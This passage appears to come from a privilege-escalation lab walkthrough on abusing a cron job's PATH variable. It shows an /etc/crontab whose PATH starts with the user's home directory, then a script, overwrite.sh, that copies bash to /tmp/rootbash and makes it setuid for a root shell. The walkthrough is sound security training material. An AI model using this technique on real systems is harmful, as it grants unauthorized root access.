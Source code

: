 ```
exit
                                                                                                                       
┌──(kali㉿kali)-[~]
└─$ 

```

===
Cron Jobs - PATH Environment Variable

View the contents of the system-wide crontab:

```
cat /etc/crontab

user@debian:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh

```

Note that the PATH variable starts with /home/user which is our user's home directory.

Create a file called overwrite.sh in your home directory with the following contents:

```
rootbash-4.1# nano overwrite.sh

#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash

```

Make sure that the file is executable:

```
user@debian:~$ chmod +x overwrite.sh 

```
